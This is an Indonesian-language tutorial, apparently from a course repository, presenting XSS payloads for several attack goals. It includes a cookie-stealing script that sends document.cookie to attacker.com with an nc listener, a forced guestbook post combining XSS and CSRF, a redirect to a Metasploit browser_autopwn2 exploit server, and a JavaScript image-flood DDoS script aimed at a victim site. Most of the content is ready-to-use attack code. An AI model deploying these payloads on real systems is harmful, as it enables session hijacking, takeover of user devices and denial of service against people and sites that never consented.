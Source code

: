 # XSS Attack

Serangan XSS bisa dipergunakan untuk berbagai banyak hal, meski terlihat sederhana. Namun celah ini bisa dianggap memiliki tingkat keparahan tinggi jika kita mampu membuktikan celah tersebut berbahaya. Pada materi ini kita akan membahas beberapa contoh payload XSS untuk beberapa tujuan.

## **Steal Cookie (Bypass Authentication)**

Cookie adalah potongan kecil informasi yang disimpan situs web di komputer kalian. Cookie hanya mengandung teks. Teks dapat berupa ID pengguna, ID sesi, atau teks lainnya. Misalnya, halaman web memiliki opsi beberapa bahasa, ketika kalian memilih bahasa indonesia maka data tersebut disimpan ke browser. Dengan demikian ketika suatu hari mengunjungi situs itu lagi halaman akan langsung menyesuaikan ke bahasa indonesia.

Nah, pada javascript syntax **document.cookie** bisa digunakan untuk mendapatkan data cookie pada domain yang saat ini diakses. Dengan mengkombinasikan XSS kita bisa mendapatkan data cookie milik pengguna. Apabila dalam cookie terdapat ID sesi, kita bisa menggunakan ID sesi tersebut untuk melewati proses autentikasi (login tanpa mengetahui username dan password).

```bash
<script>var cookie = document.cookie; document.write('<img src="http://attacker.com/?payload=' + cookie + ' "/> '); </script>
```

Keterangan :

- http://attacker.com merupakan situs yang dimiliki penyerang untuk menerima cookie yang dikirim oleh browser pengguna
- Jika kalian tidak memiliki situs, kalian bisa menggunakan perintah **nc -lvp 80** untuk dan mengganti attacker.com dengan IP address kalian

## **Force Browser to do Malicious Act (XSS + CSRF)**

Untuk vektor serangan selanjutnya kita akan membuat malicious script untuk memaksa browser mengisi guestbook. Sebenarnya jenis serangan ini seperti mengkombinasikan antara celah XSS dan CSRF. Namun untuk lebih detail mengenai CSRF akan kita diskusikan di pertemuan yang lain.

```bash
<script>
var xhr = new XMLHttpRequest();
var data = new FormData();
data.append('txtName', 'Hacker');
data.append('mtxMessage', 'You have been hacked');
data.append('btnSign','Sign Guestbook');

xhr.open('POST', '/vulnerabilities/xss_s/', true);
xhr.send(data);
</script>
```

## **Compromise User Device (Browser Exploit)**

Selain memaksa browser untuk melakukan aksi berbahaya tanpa sepengetahuan penggunanya. Kali ini berbeda, kita menyisipkan malicious script yang memaksa pengguna untuk beralih ke situs lain yang didalamnya terdapat exploit browser.

Catatan:

1. Serangan ini tergantung dari browser yang digunakan pengguna
2. Apabila browser pengguna memiliki celah dan exploit tersedia didalam metasploit maka kita bisa mengambil alih komputer pengguna tersebut

```bash
$ msfconsole
msf >  use auxiliary/server/browser_autopwn2
msf > set SRVHOST 0.0.0.0
msf > set SRVPORT 8080
msf > set URIPATH /
msf > run
```

Jalankan perintah diatas pada kali linux anda, dengan demikian metasploit akan dalam mode listener atau menunggu hingga ada browser yang mengakses IP address anda pada port 8080.

Nah, jika anda memiliki IP Public maka pengguna akan bisa mengakses exploit tersebut via internet.

Untuk bisa memaksa pengguna mengakses web dari metasploit tersebut kita bisa memanfaatkan XSS dengan script dibawah ini :

```bash
<**script**>window.location="http://ip-attacker:8080";</**script**>
```

## **Force User to do DDOS another Server**

Ini juga menarik, ternyata dengan XSS kita bisa menyuntikan malicious script yang di program untuk membanjiri request ke situs yang sudah kita atur sebelumnya. Jika malicious script itu diakses oleh banyak pengguna maka akan banyak pula request yang dikirimkan ke situs tujuan.

Membanjiri permintaan dengan banyak komputer zombie sering dikenal dengan serangan Distributed Denial Of Services. Akibat dari serangan DDOS yang membanjiri bandwidth ini menyebabkan situs menjadi tidak bisa melayani pengguna lagi.

Berikut contoh javascript yang bisa kita suntikkan dengan XSS guna melakukan serangan DDOS :

```bash
<script>
function imgflood() {
  var TARGET = 'victim-website.com'
  var URI = '/index.php?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
</script>
```